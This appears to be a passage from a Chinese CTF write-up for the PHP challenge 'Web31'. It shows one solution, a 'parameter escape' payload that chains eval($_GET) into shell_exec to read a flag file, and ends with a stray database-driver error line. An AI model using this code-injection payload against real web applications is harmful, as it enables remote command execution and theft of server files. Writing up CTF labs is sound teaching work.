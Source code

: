 ## Web31

题目:

![web31_timu](./image/web31_timu.png)

### 方法一:参数逃逸

用在创建一个eval执行入口`/?c=eval($_GET["a"]);&a=echo+shell_exec(cat+f*.*);`

![web31_eval](./image/web31_eval.png)


[ERROR]: could not find driver